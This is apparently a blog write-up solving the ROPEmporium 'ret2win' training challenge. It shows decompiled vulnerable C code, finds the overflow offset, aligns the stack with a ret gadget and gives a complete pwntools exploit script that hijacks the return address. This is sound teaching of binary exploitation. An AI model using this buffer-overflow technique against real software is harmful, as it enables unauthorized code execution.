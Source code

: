 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "list"
title: "ROPEmporium: ret2win"
---
```

## Preface
Having not practiced binary exploitation in a while, I thought it was a good idea to return to basics and practice solving all the ROPemporium challenges again.
ROPemporium is a set of pwn challenges that teaches you the basics about return-oriented binary exploitation, bringing you from your first ret2win to more advanced attacks.

You can find all the challenges [here](https://ropemporium.com/).

Let's get started!
### File Information
Running the file, we are met with the following:

![Initial Run]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/initial.png)

From the challenge description and name, it appears to be a simple return to function challenge. Let's check the protections and file info:

![Check Permissions]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/checksec.png)

No stack canaries, no PIE, and NX is enabled meaning that we won't be able to run shellcode. 
### Decompilation
However, if we open this up in Ghidra or GDB, we can see that there indeed is a 'win' function. In this case, this function directly prints the flag for us, so all we have to do is call it.

```c
void ret2win(void)
{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

The program hints towards us the fact that there is a buffer overflow, which we can verify this by checking the decompilation.

```c
void pwnme(void)
{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  read(0,local_28,0x38);
  puts("Thank you!");
  return;
}
```

The program allocates 32 bytes but calls `read()` with 0x38 = 56 bytes, so we know we can overflow the buffer by 24 bytes. This is plenty enough for us to overwrite both the base and return pointer.
### Finding Offset and Address
First, let's find the offset to the return address so we know how much to write. There are multiple ways to do this, but we will use the built-in pwntools cyclic function in order to generate a [de-Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence). Then, we can input this sequence into GDB and wait for the segmentation fault to trigger. This happens because the return address is overwritten with our cyclic input, which is garbage data.

![Segfault]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/segfault.png)

Notice that we can't directly find the offset using the value inside RIP, because 64-bit binaries will not pop an invalid address into RIP.

Because of this, we will use RBP to calculate the offset instead. Since RBP is 8 bytes below RIP, we can simply add the calculated offset value by 8. We will use `cyclic -l RBP_VAL` to find the offset.

![RBP Offset]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/rbp_offset.png)

Therefore, our offset is 40 bytes. Now, all we need is to overwrite the return address with the address of `ret2win()`. We can either get this address from GDB or Ghidra. In GDB, we grab the address of the first instruction in the function disassembly.

![ret2win Address]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/ret2win_addr.png)

Since PIE is not enabled, the function's location will be the same everytime we run it, so we can hardcode this address. We can write up an exploit using pwntools:

```python
from pwn import *

p = process('./ret2win_bin')

payload = b'A'*40
payload += p64(0x400756)

p.sendline(payload)
p.interactive()
```
### Fixing Alignment
When we run this exploit we encounter an odd issue. The program seems to jump to `ret2win` through the printed output, but segfaults before it can print the flag out.

![Early Segfault]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/error.png)

Due to architecture design choices, x64 requires the stack to be 16-byte aligned before returning to GLIBC functions. Since the `ret2win` function calls `system()`, this means that our stack is out of alignment. To fix this, we can add an additional `ret` instruction to pad the stack by 8 bytes.

In ROP, these instructions are called 'gadgets', and we can find them using numerous different tools. Here, I'll use ROPgadget in order to locate a `ret` instruction.

![Stack Alignment]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/ret_alignment.png)

Then, we can add this before our `ret2win` address to get a working script!

![Finished Script]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/done.png)
### Final Script
```python
from pwn import *

p = process('./ret2win_bin')

payload = b'A'*40 # offset to RIP
payload += p64(0x000000000040053e) # MOVAPS alignment
payload += p64(0x400756) # ret2win addr

p.sendline(payload)
p.interactive()
```